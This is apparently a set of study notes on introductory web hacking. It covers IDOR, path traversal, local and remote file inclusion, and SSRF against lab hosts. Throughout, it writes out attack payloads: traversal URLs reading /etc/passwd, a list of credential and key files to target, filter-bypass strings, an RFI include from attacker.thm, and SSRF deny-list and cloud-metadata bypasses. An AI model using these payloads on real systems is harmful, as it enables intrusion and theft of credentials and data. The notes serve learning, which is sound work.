


# 1b. Introduction to Web Hacking

Understanding and exploiting common web application vulnerabilities. In this part, we look at various web vulnerabilities and how to exploit them. 

## Insecure Direct Object Reference (IDOR)

*IDOR* is a type of access control vulnerability. It occurs when a webserver receives user-supplied input to retrieve objects (files, data, documents, etc.) and the input data is **not validated** on the server-side to confirm that the requested object belongs to the user requesting it. 

### IDOR example

Suppose we have registered ourself on some web service, and our private profile on this service exists at `/profile?id=1305`. However, we can attempt to change the query string to `id=1000`. If we are now able to see another user's private information, then we have discovered an IDOR vulnerability. 

### IDORs in encoded IDs

When passing data from webpage to webpage, either by `POST` or `GET` or cookies, developers will often encode the raw data. This ensures that the web server will understand the contents of the data.

The most commonly used encoding is base64 which uses the characters a-z, A-Z, 0-9, + and /. To determine if an IDOR vulnerability is present, we first decode the data into its raw form, tamper with it, then re-encode it before sending it back to the server and observing the response.


### IDORs in hashed IDs

Hashed data are more complicated to deal with due to the irreversibility of the hashing process. Nonetheless, it is worthwhile to use databases like [Crackstation](https://crackstation.net/) to see if a matching string can be found. 

If we are able to identify the unhashed data, we can use a similar process as encoded data to test for IDOR.

### IDORs in unpredictable IDs

If we are unable to determine the data used to request the objects, we can attempt to create two accounts and swap the ID numbers between them. If we can use one account to view the content of the other account by using their ID, then we have found an IDOR vulnerability.

### Where IDORs are located

The vulnerable endpoint may not always be a query string in the URL. It can also be content the browser loads via an AJAX request or something referenced in a Javascript file.

Sometimes endpoints may contain an unreferences parameter that was used during development, but accidentally got pushed to production. 

### A pratical IDOR example

On the Acme website, we log in to our account and go to the "Your Account" tab. We see that our information has been prefilled in the tab.


We investigate how this information is filled using the "Network" tab in the developer tools. We see that there is a call to an endpoint `/api/v1/customer?id=15`, and the page returns the ID, username and email address in JSON format.


We can try to change the ID to test for an IDOR vulnerability. Changing the ID to "1", reveals the data of the user with `id=1`.


## File Inclusion

Web applications can be written to request access to files (images, text, etc.) on a system via `GET` parameters. For example, if a user wants to access a CV on a web application, the request may look something like `http://webapp.thm/get.php?file=userCV.pdf`.

In such cases, file inclusion vulnerabilities occur when the user input is not sanitised or validated, and the user has full control over the input. 

If an attacker is able to exploit file inclusion vulnerabilities, they will be able to leak sensitive data. Furthermore, if an attacker is able to write to the server, it may be possible for them to gain remote code execution (RCE).

### Path traversal

*Path traversal* (also known as directory traversal) is a weeb sercurity vulnerability that allows and attacker to read operating system resources, such as local files on the server running the application. An attacker can exploit this vulnerability by manipulating and abusing the web application to locate and access files or directories stored **outside** of the application's root directory.

Path traversal vulnerablities occur when the user's input is passed into a functiun such as `file_get_contents` in PHP, **without proper input validation or filtering**. 

The graph below shows an example of how a web application stores files in `/var/www/app`. A proper request would be a request for the contents of `/var/www/app/CVs/userCV.pdf`. In this case, the request is made via a query string in the URL.  



Since the request is made via a query string, we can send malicious payloads via the URL to see how the web application behaves. Path traversal attacks (also known as **dot-dot-slash** attacks) take advantage of moving up one step in the directory using `../`. As in the image above, that attacker can send a malicious request: `http://webapp.thm/get.php?file=../../../../etc/passwd`, and if there is no proper input validation, the attacker wiil be able to read the contents of `/etc/passwd`. 

Similarly, if the web application runs on a Windows server, then the attacker has to provide a valid Windows path.

Sometimes, developers will only limit access to certain files or directories. Below is a (non-exhaustive) list of common OS files that we can try to access when testing.

| Location | Description |
| :---: | :--- |
| `/etc/issue` | contains a message or system identification information, which is printed before the login prompt | 
| `/etc/profile` | contains system-wide default variables |
| `/proc/version` | specifies the version of the Linux kernel |
| `/etc/passwd` | contains all registered users that have access to the system |
| `/etc/shadow` | contains information about the system's users' passwords |
| `/root/.bash_history` | contains the command history for the `root` user | 
| `/var/log/dmessage` | contains global system messages, including messaged logged during system startup | 
| `/var/mail/root` | contains all emails for the `root` user | 
| `/root/.ssh/id_rsa` | contains **private** SSH keys for any known user on the server | 
| `/var/log/apache2/access.log` | contains accessed requests for the Apache webserver | 
| `C:\boot.ini` | contains the boot options for PCs with BIOS firmware | 

### Local File Inclusion (LFI)

LFI attacks against web applications are often due to a developer's lack of security awareness. With PHP, using functions such as `include`, `require`, `include_once`, and `require_once` often lead to vulnerable web applications. Here, we focus our discussion around PHP, but it is worth noting that LFI vulnerabilities can also occur in other languages like ASP, JSP, or even Node.js. LFI exploits follow the same concepts as path traversal.

Below, we look at some scenarios of LFI vunlnerability and how we can exploit them.

---
**Scenario 1.**

Suppose the web application provides two languages, and the user can select between `EN` for English and `AR` for Arabic. 

```php
<?php
    include($_GET["lang"]);
?>
```

The PHP code above uses a `GET` request via the URL parameter `lang` to include the file of the page. Thus, to load the English page, we make a HTTP request to `http://webapp.thm/index.php?lang=EN.php`, and to load the Arabic page, we make a HTTP request to `http://webapp.thm/index.php?lang=AR.php`. Here, we can also infer that `EN.php` and `AR.php` exist in the same directory as `index.php`. 

Theoretically, if there is no input validation, we can access and display any readable file on the server. Suppose that we want to read the `/etc/passwd`, we can try to make a request to `http://webapp.thm/index.php?lang=/etc/passwd`. 

--- 

**Scenario 2.**

Now, the developer decides to specify a directory in the function.

```php
<?php
    include("languages/".$_GET["lang"])
?>
```

In this case, any file path passed via `lang` is taken to be **relative** to the `languages` directory. If there is no input validation, an attacker can still access files on the system via path traversal. An example of a malicious request would be `http://webapp.thm/index.php?lang=../../../../etc/passwd`. 

---

**Scenario 3.**

In the previous scenarios, we discovered how to exploit the web app by analysing its source code. Here, we are conduct **black-box testing**, where we do not have the source code. Thus, error messages play a significant role in helping us understand how the data is passed into, and processed in the web app.

Suppose we have an entry point: `http://webapp.thm/index.php?lang=EN`. If we enter an invalid input, e.g. `lang=THM`, we get the following error code

```
Warning: include(languages/THM.php): failed to open stream: No such file or directory in /var/www/html/THM-4/index.php on line 12
```

From this error message, we can see that the `include()` function looks like `include(languages/THM.php)`. This tells us that the function includes files in the `languages` directory, and is adding `.php` to the user input. 

Also, the error message tells us that the web application exists in the directory `/var/www/html/THM-4`. Thus, we will need to traverse the directory using `../`.  We try making the following request: `http://webapp.thm/index.php?lang=../../../../../etc/passwd`. The request again gives us an error

```
Warning: include(languages/../../../../../etc/passwd.php): failed to open stream: No such file or directory in /var/www/html/THM-4/index.php on line 12
```

Although we have managed to move out of the directory, we still need to deal with the input being appended with `.php`. To bypass this, we use a null byte (`%00`) in the user input to terminate the string. The `include()` function will ignore anything after the null byte, i.e. `include("languages/../../../../../etc/passwd%00".".php")` will be equivalent to `include("languages/../../../../../etc/passwd")`.

> **Note that the null byte trick has been fixed since PHP 5.3.4**

---

**Scenario 4.**

Building on from the previous scenario, suppose now the developer decides to filter keywords -- such as `/etc/passwd` to avoid disclosing sensitive information. There are two ways to bypass this: 

1. using the null byte trick, or
2. using the current directory trick `./` at the end of the filtered keyword, e.g. `http://webapp.thm/index.php?lang=/etc/passwd/.`

---

**Scenario 5.**

Suppose we attempt to make the request `http://webapp/thm/index.php?lang=../../../../etc/passwd`, and we receive the following error:

```
Warning: include(languages/etc/passwd): failed to open stream: No such file or directory in /var/www/html/THM-5/index.php on line 15
```

One possible explanation for this is that the developer replaces each instance of `../` with an empty string. To bypass this, we can edit the payload to be `....//....//....//....//etc/passwd`. If the filter is only run once, the payload above will be reduced to what we require.



---

**Scenario 6.**

There may be cases where the developer forces the `include()` function to read from a defined directory which has to be included in the input to the web application, e.g. `http://webapp.thm/index.php?lang=languages/EN.php`. 

To exploit it, we can simply include the directory in the usual payload, like so: `languages/../../../../../etc/passwd`.

### Remote File Inclusion (RFI)

RFI is a technique to include remote files into a vulnerable application. Like LFI, RFI vulnerabilities occur when user input is not properly sanitised. Thus, an attacker is able to inject **external URLs** into the `include()` function. 

It is important to note that RFI requires the `allow_url_fopen` option to be set to `true` in the PHP runtime configuration.

The severity of RFI is higher than LFI because RFI vulnerabilities allow an attacker to gain remote code execution (RCE) on the server. Potential consequences include sensitive information disclosure, cross-site scripting (XSS) and denial of service (DoS).

An external server -- where the attacker hosts their malicious files -- must communicate with the application server for a successful RFI attack. The malicious file is then injected via HTTP requests, and the content of the malicious file then executes on the application server.

**Example**

Suppose an attacker hosts a PHP file on their own server at `http://attacker.thm/cmd.txt` with the content:

```php
<?php echo "Hello THM"; ?>
```

The attacker makes a request to inject the malicious URL pointing to their server: `http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt`. If there is no input validation, the malicious URL will pass into the `include()` function. The web server then makes a GET request to the attacker's server to fetch the file. The file's contents are then executed by the application server. 


### Remediation

To prevent file inclusion vulnerabilities, the common recommendations are:

* Keep all systems and services, including web application frameworks updated with the latest version.
* Turn **off** PHP errors to avoid leaking the path of the application and other potentially revealing information.
* A *Web Application Firewall* (WAF) is can help to mitigate attacks.
* Disable PHP features, e.g. `allow_url_fopen` and `allow_url_include` if the web application does not require them.
* Allow only protocols and PHP wrappers that are needed.
* Never trust user input and implement proper input validation.
* Implement white- and black-listing for file names and locations.

## Server-side Request Forgery (SSRF)

*Server-side Request Forgery* (SSRF) is a vulnerability that allows a malicious user to cause the webserver to make an additional or edited HTTP request to the resource of the attacker's choosing. 

There are two types of SSRF vulnerability:
1. regular SSRF, where data is returned to the attacker's screen
2. blind SSRF, where the SSRF occurs but no information is returned to the attacker's screen

A successful SSRF attack may result in:
* access to unauthorised areas,
* access to customer/organisational data,
* ability to scale to internal networks, and/or
* access to authentication tokens/credentials.

### Examples of SSRF

Suppose we have a web application that allows users to check the stock of a certain item at `http://website.thm/stock`. In order to retrieve the stock information, the application queries a back-end API `http://api.website.thm/api/stock/item` with the item ID sent as a query string `id`. Thus, if a user wants to check the stock of the item with ID 123, the request to the application would look like:

```
http://website.thm/stock?url=http://api.website.thm/api/stock/item?id=123
```

However, a malicious user may change the value of the `url` parameter in the query string to something like `http://api.website.thm/api/user` which may return sensitive user data to the attacker.


Suppose now, the developer alters the application such that it only needs to send the query `/item?id=123` in order to retrieve the required information. A malicious user can still perform an SSRF attack by utilising directory traversal.


In another possible scenario, the web application may require the user to specify the subdomain to which the request is being made. For example, the user has to send the request: `http://website.thm/stock?server=api&id=123`. Then, the application crafts the request to the backend in the following manner:

```
http://<server>.website.thm/api/stock/item?id=<id>
```

For a SSRF attack, the attacker can send the request: `http://website.thm/stock?server=api.website.thm/api/user/&x=&id=123`. The web application then constructs the request to the backend as

```
http://api.website.thm/api/user?x=.website.thm/api/stock/item?id=123.
```

We see that the `&x=` in the payload turns into a query string `x=api.website.thm/api/stock/item?id=123`, which is not required by the `/user` page and is simply ignored.


Going back to the very first example, the attacker can also force the web application to send a request to a server of the attacker's choice. The payload would look like `http://website.thm/stock?url=http://hacker-domain.thm`, and this may cause the application to reveal its API keys.


### Finding a SSRF vulnerability

Potential SSRF vulnerabilities can be spotted in web applications in many different ways. Three common places to look are:
1. when a full URL is used as a parameter in the address bar,
   
2. a hidden field in a form,
   
3. partial URLs, such as hostnames or paths.
   
   

When working with a blind SSRF, an external HTTP logging tool, such as [Requestbin](http://requestbin.com) or [Webhook](http://webhook.site), is useful for monitoring requests. 

### Defeating common SSRF defences

Two approaches to defend against SSRF are either a deny list or an allow list.

**Deny list**

A *deny list* is where all requests are accepted apart from resources specified a list or matching a particular pattern. A web application may employ a deny list to protect sensitive endpoints, IP addresses or domains from beign access by the public while still allowing access to to other locations. A specific endpoint to restrict access to is the localhost, which may contain server performance data or further sensitive information, so domain names such as `localhost` and `127.0.0.1` would appear on a deny list.

Attackers can bypass a deny list by using alternative references to localhost such as `0`, `0.0.0.0`, `0000`, `127.1`, `127.*.*.*`, `2130706433`, `017700000001`, or subdomains with a DNS record that resolve to the IP address `127.0.0.1` (e.g. `127.0.0.1.nip.io`).

In a cloud environment, it would be beneficial to block the IP address `169.254.169.254`, which contains metadata for the deployed cloud server, including possibly sensitive information. An attacker can bypass this by registering a subdomain on their own domain with a DNS record that points to the IP address `169.254.169.254`.

**Allow list**

An *allow list* is where all requests get denied unless they appear on a list or match a particular pattern, e.g. the URL used in a parameter must start with `https://website.thm`. An attacker can quickly circumvent this rule by creating a subdomain on their own domain name like `https://wesite.thm.attackers-domain.thm`. This would then cause the application logic to allow the input and let the attacker control the internal HTTP request. 

**Open redirect**

If the above bypasses do not work, there is one more trick that an attacker can use -- the *open redirect*. An open redirect is an endpoint on the server where the website visitor gets automatically redirected to another website address. 

For example, the link `https://website.thm/link?url=https://tryhackme.com` may be used to record the number of times visitors have clicked on the link for advertising/marketing purposes. If there was a potential SSRF vulnerability with stringent rules which only allowed URLs beginning with `https://website.thm`, then an attacker could utilise the above feature to redirect the internal HTTP request to a domain of the attacker's choice.

